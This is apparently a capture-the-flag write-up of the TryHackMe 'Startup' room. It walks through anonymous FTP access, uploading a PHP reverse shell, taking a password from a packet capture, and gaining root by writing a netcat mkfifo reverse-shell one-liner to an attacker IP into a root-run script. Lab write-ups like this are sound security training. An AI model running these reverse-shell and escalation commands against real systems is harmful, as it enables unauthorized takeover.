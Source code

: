 ```yaml
---
layout: post
title: "Startup"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [rustscan, ftp, dirsearch, pcap, wireshark, php-reverse-shell]
image: ../../assets/img/posts/startup.png 

---
```


## Description

Abuse traditional vulnerabilities via untraditional means.

|**Room**|[SimpleCTF](https://tryhackme.com/room/startup)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[elbee](https://tryhackme.com/p/elbee)|

---

Let's deploy the machine and quickly scan all ports with rustscan,

```bash
rustscan -a 10.10.243.193
```

![image](https://user-images.githubusercontent.com/67465230/186898320-5357dc74-c605-445d-ba84-891f17f3a238.png)

we got 3 open ports. Let's quickly scan them in detail using nmap.

```bash
nmap -sV -sC -p21,22,80 10.10.243.193 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186898393-0064bb7d-5b63-442a-ba06-0f902ae89be3.png)

Scan result shows that port 21 is running ftp service with anonymous login, port 22 is running ssh and port 80 is running webserver.

Let's enumerate ftp service,

```bash
ftp 10.10.243.193
```

![image](https://user-images.githubusercontent.com/67465230/186898431-f712bfbd-6b98-4fca-aa21-18ada2f656c4.png)

we got in.

Enumerate directory,

![image](https://user-images.githubusercontent.com/67465230/186898469-9fd60875-de9f-4dec-9ace-e3cf9d2bc186.png)

we got an image and a text file. 

Let's download them on our system,

```bash
mget *
```

Reading notice.txt file content,

![image](https://user-images.githubusercontent.com/67465230/186898518-971236f4-02eb-42cc-8532-4ae639cd35f1.png)

After reading this message, it seems like there is a open directory on website which can be accessible by anyone who visits the website and can access the documents available on that directory.

Let's take a look at image,

![image](https://user-images.githubusercontent.com/67465230/186898711-fbe9fed4-2e47-4fd5-9348-546898a128e0.png)

Seems like there is a imposter. We have to find who is that.

Enumerating port 80 by visiting http://10.10.243.193,

![image](https://user-images.githubusercontent.com/67465230/186898765-f432f368-86d2-433a-9bf5-1d70b4465226.png)

This is a simple page which have nothing on it in particular.

Let's find hidden directory using dirsearch,

```bash
dirsearch -u http://10.10.243.193 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186898810-4c92b583-5217-432b-a9fb-2eaa7b440574.png)

we got a **files** directory. 

Visit http://10.10.243.193/files, there is another directory named ftp. Navigate into it. It seems like this is the directory which is publicly accessible. Since we have access to ftp service, then why don't drop a reverse shell and get in touch with system? Let's do this! Copy **php-reverse-shell.php** from **/usr/share/webshells/php/** directory and change the IP and port. 

Uploading this shell,

```bash
put php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/67465230/186898841-41145e1d-8bd0-4310-97f8-88cac2757fa7.png)

Let's start the netcat listener using `nc -nvlp 4444` and trigger the shell that we uploaded on ftp service,

![image](https://user-images.githubusercontent.com/67465230/186898881-c0f2f39a-a6b0-4558-bd13-48f76f9eb1c9.png)

We will get a connection,

![image](https://user-images.githubusercontent.com/67465230/186898912-21c36927-65df-48f8-817f-62f8abcf874d.png)

This is not a tty shell, so let's improve this shell, `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Now, enumerating the root directory,

![image](https://user-images.githubusercontent.com/67465230/186898956-ed30e5b2-18e2-479e-a449-5bbbb3ee3efb.png)

and I got **recipe.txt** file and a weird **/incident** directory.

Let's read the content,

![image](https://user-images.githubusercontent.com/67465230/186899145-d4874957-0f5e-4007-9e93-735f756a9c31.png)

we got the message. 

Enumerating the incident directory using `ls -la`,

![image](https://user-images.githubusercontent.com/67465230/186899042-839d83c5-dba9-4a0e-b2e2-5e8d5ea8ea0b.png)

we got a **suspicious.pcapng** file (wireshark file extension). 

I tried using scp tool but I was unsuccessful because I don't have the password of **www-data** user, so instead, I copied the file where we triggered the shell,

```bash
cp suspicious.pcapng /var/www/html/files/ftp
```

![image](https://user-images.githubusercontent.com/67465230/186899238-7e914a3c-2d62-4458-8171-fe525551ba48.png)

Download this file,

![image](https://user-images.githubusercontent.com/67465230/186899355-08dcbd7e-54a2-4afb-8566-0b73e9db7b05.png)

Now, open the wireshark because we have to analyze this file,

![image](https://user-images.githubusercontent.com/67465230/186899424-31729bc0-1636-4822-9311-e3ad98a4a2ee.png)

and we got a request of length 1468 (big enough to contain data). Let's inspect it by right-clicking and going for TCP stream in Follow section.

Scrolling down a bit,

![image](https://user-images.githubusercontent.com/67465230/186899472-bae5ebd7-4c5c-4ba1-87ab-3eafe200fd45.png)

we get the password **c4ntg3t3n0ughsp1c3** of **lennie** user.

Let's change to lennie user,

```bash
su lennie
```

![image](https://user-images.githubusercontent.com/67465230/186899547-f510d1b0-d937-4ad5-acd8-3d5d310e2901.png)

Enumerate the directory,

![image](https://user-images.githubusercontent.com/67465230/186899574-a5edcba5-4737-4caf-b8d5-e790c2f85408.png)

we got user flag.

There is a Document directory and inside there are 3 files. I read their content but didn't find them useful at all.

Let's navigate to scripts directory and enumerating directory,

![image](https://user-images.githubusercontent.com/67465230/186899761-f3d193e8-2253-4613-af0b-c225131e4389.png)

Reading the content of startup_list.txt but it is empty so we I don't find anything useful.

Let's read the content of planner.sh script,

![image](https://user-images.githubusercontent.com/67465230/186899678-adbc8f91-3135-410e-8352-90cf5a3602fd.png)

This is bash script which is doing the some things like:
- it is putting $LIST variable contents into /home/lennie/scripts/startup_lis.txt
- also, it is running **/etc/print.sh** bash script. 

Checking the owner properties of planner.sh script, 

```bash
ls -la planner.sh
```

![image](https://user-images.githubusercontent.com/67465230/186899801-bb0bdeea-f684-4e32-83f3-f812afd5067f.png)

which is run as root user.

I checked $LIST variable to see if there is anything inside but was empty. Looking inside the print.sh script,

```bash
cat /etc/print.sh
```

![image](https://user-images.githubusercontent.com/67465230/186899849-7b7a1730-b459-41d2-bd2f-b1b5549eff5f.png)

this script is doing nothing but printing done!. 

Checking the owner properties of planner.sh script, 

```bash
ls -la print.sh
```

![image](https://user-images.githubusercontent.com/67465230/186899874-c51b10f4-5952-4036-82d0-03d60f815076.png)

this script is ran as lennie user. So we can write in this script. 

Let's try to put netcat reverse one-liner shell into this script,

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.226 5555 >/tmp/f" > /etc/print.sh
```

Setting up our netcat listener on new terminal using `nc -nvlp 5555` and firing off our planner.sh script,

```bash
./planner.sh
```

![image](https://user-images.githubusercontent.com/67465230/186899987-bec2889c-41a4-4451-94f4-a21ac0b0fed1.png)

the prompt will get stucked.

On the new terminal,

![image](https://user-images.githubusercontent.com/67465230/186900030-a4706351-0851-4b64-89a7-8c023b5088ee.png)

We got root. Check using `id` command.

```
What did happened when we ran the planner.sh script?

Explanation: As we know that planner.sh script is calling the /etc/print.sh script. And we are lennie user, so we are able to put the one-liner reverse shell into /etc/print.sh script. Now, when planner.sh script will run, it will run as root, meaning when /etc/print.sh file will be called, it will be called by root user and is executed as root privileges. So we got root access on reverse connection.
```
